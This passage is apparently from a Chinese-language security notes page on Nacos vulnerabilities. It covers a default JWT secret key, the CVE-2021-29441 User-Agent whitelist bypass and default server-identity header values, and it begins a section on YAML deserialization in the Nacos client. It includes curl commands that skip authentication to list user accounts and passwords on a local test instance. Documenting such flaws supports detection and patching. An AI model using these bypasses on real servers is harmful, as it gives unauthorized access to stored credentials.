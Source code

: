漏洞检测：检查 `nacos/conf/application.properties` 文件中的 `token.secret.key` 参数，若为默认值 `SecretKey012345678901234567890123456789012345678901234567890123456789` 即存在该漏洞。（2.2.0.1 后无默认值）

> 注：从 2.1.0 版本开始，将 `nacos.core.auth.default.token.secret.key` 参数名更改为 `nacos.core.auth.plugin.nacos.token.secret.key` 了。

### CVE-2021-29441

Nacos UA 白名单，如果请求的 `User-Agent` 为 `Nacos-Server` 的话不对该请求进行身份验证。

在 Nacos < 1.4.1 时，对 `User-Agent: Nacos-Server` 进行了硬编码，并且 `nacos/conf/application.properties` 文件中默认开启该功能：

```
# 开启 user-agent 白名单功能
nacos.core.auth.enable.userAgentAuthWhite=true
```

指定该 UA，查看用户账号密码：

```
┌──(root㉿kali)-[~]
└─# curl -A Nacos-Server "http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9" | python3 -m json.tool
```

### **默认自定义身份识别标志**

从 1.4.1 版本开始，Nacos 添加服务身份识别功能，用户可以自行配置服务端的 identity，不再使用 User-Agent 作为服务端请求的判断标准。
由于在 `nacos/conf/application.properties` 配置文件中，默认 `server.identity` 值为：

```
nacos.core.auth.server.identity.key=serverIdentity
nacos.core.auth.server.identity.value=security
```

可以使用这两个默认值作为请求头就可以访问需要鉴权的接口。

查看用户账号密码：

```
┌──(root㉿kali)-[~]
└─# curl -H "serverIdentity: security" "http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9" | python3 -m json.tool
```

## Nacos Client Yaml 反序列化

> 小坑点：如果你的 jar 包名称使用过一次，记得换一下名称，不然有大概率不会再去加载这个远程 jar 包。猜测可能是将 jar 包名称放在缓存中后，就不会再从远程主机重新加载同名称的 jar 包了。

存在漏洞的 maven 依赖：

```xml
<dependency>
    <groupId>com.alibaba.nacos</groupId>
    <artifactId>nacos-client</artifactId>
    <version>1.4.1</version>
</dependency>
```
